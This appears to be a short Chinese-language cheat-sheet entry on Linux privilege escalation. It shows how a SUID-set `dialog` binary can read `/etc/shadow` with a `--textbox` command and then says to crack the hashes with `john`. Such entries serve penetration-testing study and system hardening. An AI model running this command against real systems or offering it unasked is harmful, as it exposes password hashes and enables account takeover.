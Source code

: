 # dialog

`dialog` 若具有 `s` 权限，可以被用来读取一些高权限文件的内容，例如`/etc/shadow`

使用如下命令读取`/etc/shadow` 的内容：

```
./dialog --textbox /etc/shadow 0 0
```

![https://isecurityclub-1253463441.cos.ap-chengdu.myqcloud.com/cut-1.png](https://isecurityclub-1253463441.cos.ap-chengdu.myqcloud.com/dialog-1.png)
![https://isecurityclub-1253463441.cos.ap-chengdu.myqcloud.com/cut-1.png](https://isecurityclub-1253463441.cos.ap-chengdu.myqcloud.com/dialog-2.png)

然后使用`john` 对 hash 进行破解.

